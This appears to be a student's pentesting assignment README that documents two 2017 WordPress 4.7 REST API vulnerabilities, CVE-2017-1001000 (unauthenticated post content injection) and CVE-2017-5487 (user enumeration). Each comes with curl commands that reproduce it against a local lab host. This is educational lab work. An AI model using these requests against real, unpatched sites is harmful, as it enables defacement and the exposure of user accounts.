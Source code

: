 # Project 7 - WordPress Pentesting

Time spent: **5** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. CVE-2017-1001000
  - [x] Summary: The register_routes function in wp-includes/rest-api/endpoints/class-wp-rest-posts-controller.php in the REST API in WordPress 4.7.x before 4.7.2 does not require an integer identifier, which allows remote attackers to modify arbitrary pages via a request for wp-json/wp/v2/posts followed by a numeric value and a non-numeric value, as demonstrated by the wp-json/wp/v2/posts/123?id=123helloworld URI.	
    - Vulnerability types: Privalige escalation
    - Tested in version: 4.7
    - Fixed in version: 4.7.2
  - [x] GIF Walkthrough: ![Imgur](https://imgur.com/a/GsrEu)
  - [x] Steps to recreate: Privilage Escalation.  Using the REST api, a URL post request can bypass the authentcation check and allow a non-authenticated user to make changes to a post.

        Valid request:  curl -X POST http://wpdistillery.dev/wp-json/wp/v2/posts/123?id=5 -d '{"content":"hcked content"}'
        Expected output: Status 401

        Invalid request: curl -X POST http://wpdistillery.dev/wp-json/wp/v2/posts/123?id=5abc -d '{"content":"hcked content"}'
        By adding the string 'abc" to the end of the post id(5) and reqesting a post which doesnt exist(123), I now have access to change content.
  - [x] Affected source code: https://github.com/WordPress/WordPress/commit/e357195ce303017d517aff944644a7a1232926f7
    -[Link 1]https://www.cvedetails.com/cve/CVE-2017-1001000/ 
    
2.  CVE-2017-5487
  - [x] Summary:  wp-includes/rest-api/endpoints/class-wp-rest-users-controller.php in the REST API implementation in WordPress 4.7 before 4.7.1 does not properly restrict listings of post authors, which allows remote attackers to obtain sensitive information via a wp-json/wp/v2/users request.	
    - Vulnerability types: Obtain Information
    - Tested in version: 4.7
    - Fixed in version: 4.7.1
  - [x] GIF Walkthrough: [Imgur](https://i.imgur.com/DxH5k0N.gifv)
  - [x] Steps to recreate: curl -X GET http://wpdistillery.dev/wp-json/wp/v2/users
  - [x] Affected source code: https://github.com/WordPress/WordPress/commit/daf358983cc1ce0c77bf6d2de2ebbb43df2add60
    - [Link 1](https://www.cvedetails.com/cve/CVE-2017-5487/)
    
    
## Assets

## Resources

- [CVE Details](https://www.cvedetails.com/)
- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).
GIFs hosted on imgur.com

## Notes

Finding a suitable version of wordpress was a small challange.  My biggest change was time restraints with other classes.  Due to these, I was unable to find and execute a third exploit. 

## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
